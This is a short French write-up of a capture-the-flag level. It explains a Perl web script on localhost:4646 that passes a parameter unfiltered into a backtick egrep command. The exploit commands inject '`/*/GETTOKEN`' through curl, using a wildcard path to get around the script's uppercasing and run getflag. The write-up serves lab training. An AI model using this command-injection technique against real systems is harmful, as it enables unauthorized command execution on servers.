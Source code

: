 # 12 Commande Injection

Le code Perl effectue les actions suivantes  :

1. Cherche dans un fichier (/tmp/xd) une ligne qui commence par un mot (en majuscules) fourni en paramètre.
2. Vérifie si une seconde partie de cette ligne contient un autre mot fourni en paramètre.
3. Si une correspondance est trouvée, il retourne 1, sinon 0.
4. La fonction n affiche un symbole (.. ou .) selon un paramètre passé, pour donner une indication visuelle.

|   |Fonctionnement du Script Perl `localhost:4646`                                                        |
| -------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Objectif**         | Fournit une réponse HTML : type de contenu = "text/html".                                                                                               |
| **Sous-routine 't'** | Effectue une recherche dans le fichier `/tmp/xd` en fonction de paramètres passés (`$xx` et `$nn`).<br> tr/a-z/A-Z/ => transforme **tout en majuscule** |
| **Sous-routine 'n'** | Cette sous-routine imprime ".." si le paramètre est égal à 1, sinon elle imprime ".".                                                                   |



### Injection à cause de la vulnérabilité
``@output = `egrep "^$xx" /tmp/xd 2>&1`;``
* La chaîne `$xx` est utilisée directement dans la commande shell sans être filtrée ou validée


### Commandes réalisées
```bash
cat level12.pl
cd tmp
echo "getflag > /tmp/token" > /tmp/GETTOKEN && chmod +x /tmp/GETTOKEN
curl localhost:4646?x='`/*/GETTOKEN`'
cat token
```


### Exploit
```bash
echo "getflag > /tmp/token" > /tmp/GETTOKEN && chmod +x /tmp/GETTOKEN
curl localhost:4646?x='`/*/GETTOKEN`' 
```
* Le fichier et le chemin d'accès doivent être en majuscule d'où le /*/GETTOKEN